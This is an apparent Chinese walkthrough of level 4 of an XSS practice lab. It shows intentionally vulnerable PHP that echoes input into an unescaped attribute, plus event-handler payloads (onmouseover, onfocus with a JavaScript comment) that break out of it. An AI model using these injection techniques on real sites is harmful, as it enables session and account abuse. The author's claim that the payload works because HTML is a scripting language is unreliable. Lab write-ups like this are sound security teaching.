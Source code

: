 ```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level4.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

首先有字符串<>的过滤

然后是htmlspecialchars的转移

所以漏洞点就只有

```php
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
```

所以还是level3的方法,但是之前闭合的是单引号

这一次需要闭合双引号

很奇怪也可以触发

```php
<input name=keyword  value="" onmouseover='alert(1)''">
<input type=submit name=submit value=搜索 />
```

为什么呢?

因为html是脚本语言

对于代码 `<input name=keyword  value="" onmouseover='alert(1)''">` 中 `onmouseover='alert(1)'` 已经闭合完毕了

然后代码`'">` 存在问题

但这不影响前面代码的执行

这就是脚本语言吧

下面这个东西也是利用脚本语言的漏洞

```php
<input name=keyword  value="" onfocus=javascript:alert('xss')//">
<input type=submit name=submit value=搜索 />
```

首先那个//是js的注释,把后面东西都给注释掉,然后就弹窗了

# level5
